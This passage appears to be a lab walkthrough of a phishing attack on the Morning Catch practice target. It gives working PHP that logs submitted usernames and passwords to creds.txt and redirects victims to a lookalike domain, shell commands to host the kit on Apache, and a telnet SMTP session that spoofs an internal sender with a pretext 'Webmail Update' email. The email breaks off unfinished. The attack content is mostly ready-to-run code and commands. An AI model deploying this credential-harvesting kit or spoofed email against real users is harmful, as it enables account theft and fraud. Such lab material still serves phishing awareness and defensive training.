 #### 1.3. Modify the login form

The attacker modifies, in the `mail/index.html` file, the form action element from `action="index.html"` to `action="form.php"`.

```bash
sudo nano /var/www/html/mail/index.html
```

The `form.php` needs to:

*  save the form inputs in `creds.txt`,
* redirect to `task-mail`.

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose($f);
header("Location: http://mornincatch.ph/mail/task-mail");
die();
?>
```

The attacker creates `creds.txt` and changes its owner to `www-data` (the user running the web server process), so that it can be modified during the execution of the script.

```
sudo cp form.php /var/www/html/mail
sudo touch /var/www/html/mail/creds.txt
sudo chown www-data: /var/www/html/mail/creds.txt
```

The website can then start with Apache.

```
sudo systemctl start apache2
```

Now the website is on, ready to steal some credentials!

#### 1.4. Sending the message

The attacker crafts the email for the target:

```bash
telnet morningcatch.ph 25
helo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: Webmail Update

Hello Richard,

We are currently rolling out a new performance configuration for the webmail system to improve security.

Could you please help us test the updated version? Access it at:
http://mornincatch.ph/mail/

Let us know if you encounter any issues, but after the weekend.

Best,
```